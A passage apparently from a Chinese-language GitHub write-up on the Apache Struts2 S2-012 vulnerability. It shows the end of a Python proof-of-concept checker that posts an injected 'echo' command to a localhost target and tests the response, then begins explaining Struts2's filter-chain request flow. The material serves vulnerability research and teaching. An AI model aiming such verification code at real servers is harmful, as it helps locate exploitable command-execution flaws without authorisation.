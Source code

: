 ```python
            self.check_data = {'name': self.payload.replace('S2_012', '"echo",' + '\"' + self.capta + '\"')}
            check_res = requests.post(self.url, data = self.check_data)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_012 = S2_012_BaseVerify('http://localhost:8080/s2_012_war_exploded/index.action')
    S2_012.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.
